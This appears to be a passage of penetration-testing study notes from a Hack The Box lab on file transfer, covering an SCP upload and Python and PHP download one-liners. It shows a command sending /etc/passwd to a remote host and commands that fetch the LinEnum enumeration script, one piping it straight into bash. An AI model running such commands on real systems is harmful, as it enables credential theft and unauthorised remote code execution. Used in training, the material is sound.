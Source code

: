 ### SCP Upload
- **Use Case**: SSH (TCP/22) allowed for outbound connections.
- **Command**:
  ```bash
  scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
  ```
- **Note**: SCP syntax mirrors `cp`; requires SSH server on destination.


# Notes on Transferring Files with Code

## Introduction
- Common programming languages (Python, PHP, Perl, Ruby, JavaScript, VBScript) are often available on Linux and sometimes Windows, enabling file transfer operations.
- Windows supports JavaScript/VBScript via `cscript.exe` or `wscript.exe`.
- Approximately 700 programming languages exist, offering flexibility for file transfers and OS interactions.

## Download Operations

### Python
- **Versions**: Python 3 (current), Python 2.7 (legacy, still found on some servers).
- **Method**: Use `-c` for one-liners.
- **Examples**:
  - Python 2.7:
    ```bash
    python2.7 -c 'import urllib; urllib.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
    ```
  - Python 3:
    ```bash
    python3 -c 'import urllib.request; urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
    ```

### PHP
- **Prevalence**: Used by ~77.4% of websites with known server-side languages (W3Techs).
- **Methods**:
  - `file_get_contents` and `file_put_contents`:
    ```bash
    php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh", $file);'
    ```
  - `fopen`:
    ```bash
    php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while($buffer = fread($fremote, BUFFER)) fwrite($flocal, $buffer); fclose($fremote); fclose($flocal);'
    ```
  - Fileless (pipe to Bash):
    ```bash
    php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); echo implode("", $lines);' | bash
    ```
- **Note**: `@file` treats URLs as filenames if `fopen` wrappers are enabled.
